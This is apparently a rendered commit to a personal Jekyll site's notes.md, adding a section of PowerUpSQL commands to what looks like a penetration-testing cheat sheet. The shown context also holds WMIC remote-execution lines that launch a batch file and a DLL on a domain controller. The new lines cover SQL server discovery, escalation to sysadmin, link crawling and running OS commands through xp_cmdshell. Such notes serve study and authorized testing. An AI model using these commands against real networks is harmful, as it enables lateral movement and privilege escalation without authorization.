

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from notes.md, in a window 1280 px wide and 900 px high, scrolled down 4434 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update notes.md

````diff
--- a/notes.md
+++ b/notes.md
@@ -237,6 +237,38 @@ wmic /node:"192.168.1.2" process call create "C:\Perflogs\434.bat"
 WMIC /node:"DC.example.domain" process call create "rundll32 C:\PerfLogs\arti64.dll, StartW"
 ```
 
+# MSSQL databases
+
+PowerUpSQL can be used to look for databases within the domain, and gather further information on databases.
+
+
+```cpp
+# Get MSSQL databases in the domain, and test connectivity
+Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | ft
+
+# Try to get information on all domain databases
+Get-SQLInstanceDomain | Get-SQLServerInfo
+
+# Get information on a single reachable database
+Get-SQLServerInfo -Instance 'sql-1.cyber.io,1433'
+
+# Scan for MSSQL misconfigurations to escalate to SA
+Invoke-SQLAudit -Verbose -Instance UFC-SQLDEV
+
+#PowerUpSQL automatically crawl database links
+Get-SQLServerLinkCrawl -Instance 'sql-1.cyber.io,1433'
+
+# Execute SQL query
+Get-SQLQuery -Query "SELECT system_user" -Instance sql-1.cyber.io
+
+# Run command (requires XP_CMDSHELL to be enabled)
+Invoke-SQLOSCmd -Instance sql-1.cyber.io -Command "whoami" |  select -ExpandProperty CommandResults
+Invoke-SQLOSCmd -Instance sql-1.cyberbotic.io -Command 'dir C:\' -RawResults
+
+# Automatically find all linked databases
+Get-SqlServerLinkCrawl -Instance dcorp-mssql | select instance,links | ft
+```
+
 # Domain Dominance
 
 # Misc & Encoding
````
